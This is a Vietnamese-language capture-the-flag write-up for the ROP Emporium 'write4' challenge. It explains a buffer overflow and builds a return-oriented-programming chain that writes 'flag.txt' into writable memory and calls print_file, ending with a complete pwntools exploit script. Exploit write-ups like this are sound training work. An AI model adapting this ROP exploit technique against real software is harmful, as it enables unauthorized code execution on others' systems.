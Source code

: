 # ROP_Emporium - write4

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:

![pwnme2.png](images/pwnme2.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

cũng như usefulGadgets()

![usefulGadgets.png](images/usefulGadgets.png)

# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số **nonexistent** thành **flag.txt** để hàm này đọc flag file và in ra

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây
![usefulFunction2.png](images/usefulFunction2.png)

Đối với usefulGadgets() có **mov    QWORD PTR [r14],r15** để đưa giá trị từ thanh ghi r15 vào giá trị tại địa chỉ thanh ghi r14 mà khi ta tra bảng gadget có **pop r14, r15, ret**

![pop_r14.png](images/pop_r14.png)

Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:

![vmmap.png](images/vmmap.png)

ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:

![strstr.png](images/strstr.png)

ở đây mình sẽ lấy **0x601140**


ROP_chain ta sẽ làm như sau:

- pop 2 thanh ghi r14 và r15 để ghi vào chúng
- đẩy vào r14 địa chỉ cần ghi vào
- đưa chuỗi "flag.txt" vào r15
- sử dụng usefulGadget() để đưa giá trị "flag.txt" vào địa chỉ cần ghi
- pop rdi ra để đưa địa chỉ chữa chuỗi "flag.txt" vào
- nhảy đến hàm print_file sau khi đã setup thanh ghi rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./write4', checksec=False)

p = process("./write4")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x601140

payload = flat(
    cyclic(0x28),
    pop_r14_r15,
    null_addr,
    b"flag.txt",
    gadget,
    pop_rdi_ret,
    null_addr,
    vuln+9
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# 4. Lấy flag

![flag.png](images/flag.png)


